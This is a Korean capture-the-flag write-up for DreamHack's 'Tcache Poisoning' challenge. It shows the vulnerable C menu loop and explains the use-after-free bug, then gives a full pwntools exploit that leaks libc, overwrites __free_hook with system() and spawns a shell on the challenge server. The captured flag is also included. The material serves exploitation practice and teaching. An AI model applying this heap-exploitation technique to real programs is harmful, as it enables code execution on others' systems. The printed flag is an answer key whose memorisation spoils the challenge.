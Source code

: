 # [DreamHack] Tcache Poisoning

:writing_hand: [h0meb0dy](mailto:h0meb0dysj@gmail.com)

> Exploit Tech: Tcache Poisoning에서 실습하는 문제입니다.
>
> Release: [Tcache Poisoning.zip](https://github.com/h0meb0dy/Dreamhack-Wargame/files/8549313/Tcache.Poisoning.zip)

## Mitigation

![image](https://user-images.githubusercontent.com/102066383/160296679-4d9822b5-927d-4e85-b22a-f5972dc8b83c.png)

## Analysis

```c
  while (1) {
    printf("1. Allocate\n");
    printf("2. Free\n");
    printf("3. Print\n");
    printf("4. Edit\n");
    scanf("%d", &idx);

    switch (idx) {
      case 1:
        printf("Size: ");
        scanf("%d", &size);
        chunk = malloc(size);
        printf("Content: ");
        read(0, chunk, size - 1);
        break;
      case 2:
        free(chunk);
        break;
      case 3:
        printf("Content: %s", chunk);
        break;
      case 4:
        printf("Edit chunk: ");
        read(0, chunk, size - 1);
        break;
      default:
        break;
    }
  }
```

청크를 free할 때 `chunk` 변수를 0으로 초기화하지 않아서 UAF가 발생한다. 청크를 free시키고 forward pointer를 hook의 주소로 덮으면 hook에 원하는 값을 써서 그 주소를 호출할 수 있다.

free hook에 `system()`의 주소를 넣고 `free("/bin/sh")`를 호출하면 셸을 획득할 수 있다.

## Exploit

```python
from pwn import *

REMOTE = True

if not REMOTE:
    r = process('./release/tcache_poison')
    stdout_offset = 0x3ec760
    freehook_offset = 0x3ed8e8
    system_offset = 0x4f420
else:
    r = remote('host1.dreamhack.games', 9196)
    stdout_offset = 0x3ec760
    freehook_offset = 0x3ed8e8
    system_offset = 0x4f550

sla = r.sendlineafter
sa = r.sendafter


def Alloc(size, content):
    sla('4. Edit\n', '1')
    sla('Size: ', str(size))
    sa('Content: ', content)


def Free():
    sla('4. Edit\n', '2')


def Print():
    sla('4. Edit\n', '3')


def Edit(content):
    sla('4. Edit\n', '4')
    sa('Edit chunk: ', content)


# leak libc

Alloc(0x18, 'a')
Free()
Edit(p64(0x601010))
Alloc(0x18, 'a')
Alloc(0x18, '\x60')
Print()

r.recvuntil('Content: ')
stdout = u64(r.recvn(6).ljust(8, b'\x00'))  # _IO_2_1_stdout_
libc = stdout - stdout_offset  # libc base
system = libc + system_offset  # system()
freehook = libc + freehook_offset  # __free_hook


# overwrite free hook with system()

Alloc(0x28, 'a')
Free()
Edit(p64(freehook))
Alloc(0x28, 'a')
Alloc(0x28, p64(system))


# call system("/bin/sh")

Alloc(0x38, '/bin/sh')
Free()


r.interactive()
```

```
$ python3 solve.py
[+] Opening connection to host1.dreamhack.games on port 9196: Done
[*] Switching to interactive mode
$ cat flag
DH{1c94c43ee3c47ad44422f83d7b6fd9a8}
```